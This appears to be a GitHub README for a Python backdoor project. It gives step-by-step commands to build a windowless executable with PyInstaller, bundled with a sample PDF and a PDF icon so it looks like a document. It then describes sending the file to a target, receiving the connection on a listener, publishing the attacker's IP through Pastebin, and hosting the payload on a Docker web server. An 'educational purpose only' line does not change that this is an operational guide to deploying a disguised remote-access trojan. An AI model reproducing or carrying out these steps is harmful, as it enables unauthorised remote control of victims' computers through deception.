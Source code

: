 # This Backdoor dosen't bypass windows defender and other AV's

For educational Purpose only
Dosen't matter if target dosen't have pyhton installed

You should have these requirements :
1. Python installed with required packages 
2. Pyinstaller installed
3. Update ur current IP address in Pastebin.com
4. Must have docker installed if using it

## Steps :
1. do git clone https://github.com/Anonomous69/Backdoor
2. cd to directory
3. do C:\Users\username\Appdata\Local\Python\Python3.12\Scripts\pyintstaller.exe --add-data=sample.pdf:.  -—onefile -—noconsole --icon pdf.ico backdoor.py
4. The created backdoor must be in your "dist" folder in that directory
5. Run Listener is your machine and send the backdoor to target
6. when target clicks backdoor, u get the connection

## Docker :
for a proper web server (lacking in windows) to host the backdoor.exe file use docker
steps:
1. cd Docker
2. docker build -t Dcoker .
3. docker run Dcoker
and then go to <your_IP>:8080 in broser to download the ready-made .exe
